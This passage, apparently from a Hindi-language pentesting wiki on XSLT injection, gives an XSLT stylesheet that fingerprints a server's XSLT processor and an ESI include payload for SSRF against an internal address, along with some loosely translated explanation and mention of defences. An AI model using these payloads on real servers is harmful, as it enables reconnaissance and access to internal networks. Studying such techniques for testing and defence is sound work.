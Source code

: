इस्तेमाल की गई XSLT संस्करण के आधार पर अधिक या कम फ़ंक्शन हो सकते हैं:

* [https://www.w3.org/TR/xslt-10/](https://www.w3.org/TR/xslt-10/)
* [https://www.w3.org/TR/xslt20/](https://www.w3.org/TR/xslt20/)
* [https://www.w3.org/TR/xslt-30/](https://www.w3.org/TR/xslt-30/)

## फिंगरप्रिंट

इसे अपलोड करें और जानकारी लें
```markup
<?xml version="1.0" encoding="ISO-8859-1"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
Version: <xsl:value-of select="system-property('xsl:version')" /><br />
Vendor: <xsl:value-of select="system-property('xsl:vendor')" /><br />
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" /><br />
<xsl:if test="system-property('xsl:product-name')">
Product Name: <xsl:value-of select="system-property('xsl:product-name')" /><br />
</xsl:if>
<xsl:if test="system-property('xsl:product-version')">
Product Version: <xsl:value-of select="system-property('xsl:product-version')" /><br />
</xsl:if>
<xsl:if test="system-property('xsl:is-schema-aware')">
Is Schema Aware ?: <xsl:value-of select="system-property('xsl:is-schema-aware')" /><br />
</xsl:if>
<xsl:if test="system-property('xsl:supports-serialization')">
Supports Serialization: <xsl:value-of select="system-property('xsl:supportsserialization')"
/><br />
</xsl:if>
<xsl:if test="system-property('xsl:supports-backwards-compatibility')">
Supports Backwards Compatibility: <xsl:value-of select="system-property('xsl:supportsbackwards-compatibility')"
/><br />
</xsl:if>
</xsl:template>
</xsl:stylesheet>
```
## SSRF

SSRF (Server-Side Request Forgery) एक वेब अद्यतन तकनीक है जिसमें हम एक अनुरोध को बनाते हैं जो सर्वर के बाहरी संसाधनों को पहुंचने की कोशिश करता है। इसका उपयोग अनुरोध करने के लिए वेब सर्वर के आंतरिक नेटवर्क में संसाधनों को पहुंचने के लिए किया जाता है। SSRF आक्रमणों के लिए एक बहुत ही प्रभावी तकनीक है, क्योंकि इससे हम आंतरिक नेटवर्क में स्थानीय संसाधनों और सेवाओं को अनुरोध कर सकते हैं जिन्हें सार्वजनिक नहीं किया जा सकता है।

SSRF आक्रमण के लिए विभिन्न तकनीकों का उपयोग किया जा सकता है, जैसे कि URL अनुरोध, DNS अनुरोध, FTP अनुरोध, आदि। SSRF आक्रमण के द्वारा हम अनुरोध कर सकते हैं जैसे कि वेब सर्वर के आंतरिक नेटवर्क में स्थानीय फ़ाइलों को पढ़ना, डेटाबेस संचालित करना, आंतरिक सेवाओं को अनुरोध करना, आदि।

SSRF आक्रमण को रोकने के लिए कुछ सुरक्षा उपाय हैं, जैसे कि इनपुट सत्यापन, अनुरोध की सीमा निर्धारण, नेटवर्क फ़ायरवॉल नियमों का उपयोग, आदि। SSRF आक्रमण के खिलाफ सुरक्षा के लिए इन उपायों का उपयोग करना अत्यंत महत्वपूर्ण है।
```markup
<esi:include src="http://10.10.10.10/data/news.xml" stylesheet="http://10.10.10.10//news_template.xsl">
</esi:include>
```
## जावास्क्रिप्ट इंजेक्शन
